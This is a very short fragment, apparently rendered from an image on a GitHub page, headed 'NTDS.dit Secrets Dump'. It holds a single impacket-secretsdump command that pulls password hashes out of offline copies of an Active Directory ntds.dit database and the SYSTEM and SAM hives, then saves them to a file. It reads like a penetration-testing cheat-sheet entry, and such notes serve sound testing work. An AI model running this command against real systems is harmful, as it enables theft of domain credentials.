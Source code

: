 # NTDS.dit Secrets Dump

```
impacket-secretsdump -ntds ntds.dit -system SYSTEM -sam SAM LOCAL | tee secrets
```
